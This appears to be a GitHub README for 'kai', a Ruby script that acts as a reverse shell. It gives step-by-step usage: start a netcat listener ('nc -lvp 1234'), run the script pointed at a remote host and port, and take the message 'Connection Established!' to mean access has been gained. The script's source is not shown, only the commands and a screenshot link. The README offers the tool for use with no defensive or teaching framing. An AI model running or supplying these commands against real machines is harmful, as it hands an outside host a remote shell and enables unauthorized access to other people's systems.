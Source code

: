 ## kai

![Screenshot from 2023-07-18 09-45-54](https://github.com/Nathalon/kai/assets/69394316/b90c9b27-6d89-4e1b-b261-575a0f04beb3)

##

## Dependencies

**In order for the script to work you need to have Ruby installed on the system.**  

**1. Fire up Netcat for incoming connections. `$ nc -lvp 1234`**  
**2. Run Kai. `$ ./kai.rb --remote-host 192.168.1.109 --port-remote 1234`**  
**3. If you get this message `Status: Connection Established!` it means you gained access.**  

![Ruby](https://img.shields.io/badge/Ruby-CC342D?style=for-the-badge&logo=ruby&logoColor=white/)
